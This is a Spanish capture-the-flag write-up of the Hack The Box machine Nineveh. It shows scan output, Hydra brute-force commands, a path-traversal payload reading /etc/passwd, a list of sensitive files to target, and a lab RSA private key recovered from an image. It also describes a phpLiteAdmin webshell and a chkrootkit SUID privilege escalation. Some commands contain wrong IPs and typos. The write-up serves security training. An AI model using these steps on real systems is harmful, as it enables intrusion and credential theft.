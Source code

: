 ------
- Tags: #hydra #lfi #steganography #php-lite-admin #knock #port-knocking #chkrootkit 
- ------------------
## Técnicas utilizadas
- Abusing http forms with Hydra - Login Brute Force  
- Local File Inclusion (LFI)  
- Steganography - id_rsa hidden in image  
- Abusing phpLiteAdmin v1.9 (Remote Code Execution)  
- Abusing Knockd - Port Knocking  
- Chkrootkit 0.49 - Local Privilege Escalation  
- Using Wrappers - LFI [EXTRA]
## Procedimiento

![[Pasted image 20230721151323.png]]

-------
#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p80,443 10.10.10.43 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 23:20 MST
Nmap scan report for 10.10.10.43
Host is up (0.13s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.82 seconds
```

Un escaneo con **WhatWeb** sobre el aplicativo web nos muestra las siguientes tecnologías corriendo por detras:
```ruby
# whatweb 10.10.10.43 && whatweb 10.10.10.43:443
http://10.10.10.43 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]
http://10.10.10.43:443 [400 Bad Request] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43], Title[400 Bad Request]
```

----------
#### Abusing http forms with Hydra - Login Brute Force  
Visitando la pagina web, nos percatamos de que no hay nada interesante. Fuzzeando por directorios con **Wfuzz** llegamos a dar con una ruta de nombre **Department**:
![[Pasted image 20230721232315.png]]

Al ingresar a la ruta, nos encontramos con un **Login** el cual parece ser vulnerable a **User Enumeration** a través de mensajes de error. Encontramos que el usuario **Admin** existe dentro del aplicativo web, asi que como no tenemos ninguna otra via, intentaremos un ataque de fuerza bruta sobre el **Login** con **Hydra**:
```
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/departaments/login.php:username=admin&password=^PASS^:Invalid Password" -t 50
```

Y no encuentra la siguiente contraseña para el usuario **Admin**:
![[Pasted image 20230721232658.png]]

---------------
#### Local File Inclusion (LFI)  
La **URL** tiene un aspecto peculiar, parece utilizar el parametro **Notes** para incluir archivos de la maquina. Si intentamos un **Path Transveral** hacia alguno de las rutas tipicas contra las que se suele atentar en **LFI** podemos llegar a listar el  **/etc/passwd** utilizando algunas tecnicas de evasión, dado que toma como base el directorio **ninevehNotes**:
```
notes=/ninevehNotes/../../../../../../etc/passwd
```

**Rutas intetesantes a las cuales apuntar**:
```
/proc/net/fib_trie     #Podemos ver si estamos en un contenedor
/proc/net/tcp          #Podemos listar los puertos que estan abiertos internamente
/proc/self/environ     #Listamos las variables de entorno
/etc/os-release        #Listamos el sistema operativo en uso
/proc/sched_debug      #Listamos algunos procesos que estan corriendo en el sistema
/proc/schedstat        #proporciona estadísticas de planificación del kernel
/etc/knockd.conf       #Lista la configuración de Knock
```

----------
#### Steganography - id_rsa hidden in image 
Tenemos aún un servicio web sin enumerar, vamos a **Fuzzear** por directorios ahora en el servicio **HTTPS** para ver que encontramos:
![[Pasted image 20230722000109.png]]

Encontramos dos potenciales directorios, por un lado tenemos **db** y por otro **secure_notes**. El primero es un **Login** y el segundo basicamente es una imagen, la cual, problemente si aplicamos tecnicas de Steganografia podramos llegar a conseguir algo, dado que se encuentra un un directorio que insita a rebuscar. Si aplicamos un **strings** sobre la imagen llegamos a ver una **id_rsa**:
```
# string nineveh.png
[...]
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
[...]
```

Ahora, gracias a que hemos golpeado los puertos con **knock** que encontramos en el **knockd.conf** podemos conectarnos a través de **SSH**:
```
# ssh user@10.10.14.17 -i id_rsa
```

----------
#### Abusing phpLiteAdmin v1.9 (Remote Code Execution)  
Otra forma de ganar acceso a la maquina es a través de explotar una vulnerabilidad en el directorio **db** que encontramos en el apartado anterior, el cual contiene un **PhpLiteAdmin**. Con **Hydra**, volvemos a intentar un ataque de fuerza bruta sobre el **Login**:
```
# hydra -l none -P /usr/share/wordlist/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -t 50
```

Y obtenemos la siguiente credencial:
![[Pasted image 20230721235714.png]]

Listando por vulnerabilidades para la versión actualmente en uso de **PhpLiteAdmin** encontramos una de tipo **Remote Code Execution** la cual explica que necesitamos crear primero una base de datos con extensión **php**. Luego nos cuenta que podemos crear una tabla, a la cual le podemos insertar un campo con la estructura tipica de un **.php**, como por ejemplo, una **WebShell**.

------------
#### Chkrootkit 0.49 - Local Privilege Escalation  
Dentro de la maquina, podemos subir el **PsPy** para analizar los comandos que se estan ejecutando en intervalos regulares de tiempo:
![[Pasted image 20230722000015.png]]

Encontramos un **chkrootkit**, el cual si buscamos por vulnerabilidades con **SearchSploit** encontramos una de tipo **Privilage Escalation**:
![[Pasted image 20230721235955.png]]

Nos cuenta que en **/tmp** se ejecuta un archivo de nombre **update** cada intervalo de tiempo. Podemos crear un archivo con dicho nombre e indicarle que se le asigne un privilegio **SUID** a la **Bash**:
![[Pasted image 20230721235943.png]]


